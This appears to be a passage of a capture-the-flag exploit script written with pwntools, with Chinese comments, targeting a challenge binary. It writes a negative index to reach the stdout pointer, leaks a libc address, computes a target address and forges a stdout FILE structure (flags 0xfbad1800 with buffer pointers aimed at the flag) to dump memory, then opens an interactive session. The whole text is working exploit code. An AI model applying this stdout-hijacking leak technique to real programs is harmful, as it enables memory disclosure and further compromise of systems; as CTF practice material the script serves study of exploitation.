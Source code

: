 ```python
sh.sendafter(b'write?', b'-8') # stdout在索引为-8的位置
sh.sendlineafter(b'feedback.', pad)

stdin_addr = l64()
success(f'leak addr = {hex(stdin_addr)}')

libc_base = stdin_addr - libc.symbols['_IO_2_1_stdin_']
success(f'libc_base = {hex(libc_base)}')

flag_addr = libc_base + libc.symbols['puts'] + 0x16d2e0
success(f'flag_addr = {hex(flag_addr)}')

pad = p64(0xfbad1800) + p64(0) * 3 + p64(flag_addr) + p64(flag_addr + 0x50) # 将缓冲区设置为flag_addr到flag_addr+0x50
sh.sendafter(b'write?', b'-8')
sh.sendlineafter(b'feedback.', pad)

# DEBUG()

sh.interactive()
```


